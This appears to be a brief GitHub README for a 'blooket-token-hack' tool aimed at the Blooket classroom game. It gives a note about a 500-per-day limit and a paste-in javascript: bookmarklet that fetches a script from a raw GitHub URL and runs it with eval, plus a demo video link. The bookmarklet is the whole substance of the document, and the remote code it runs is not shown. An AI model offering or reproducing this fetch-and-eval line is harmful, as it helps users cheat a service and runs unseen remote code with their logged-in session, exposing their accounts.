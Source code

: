 # *****note:daily maximun:500*****

### `javascript:fetch("https://raw.githubusercontent.com/user134383097489237489/blooket-token-hack/main/Untitled-1.js").then((res) => res.text().then((t) => eval(t)))`

https://user-images.githubusercontent.com/94034091/141063607-b08a11f9-5cca-4af1-b721-e2e1759b317c.mp4
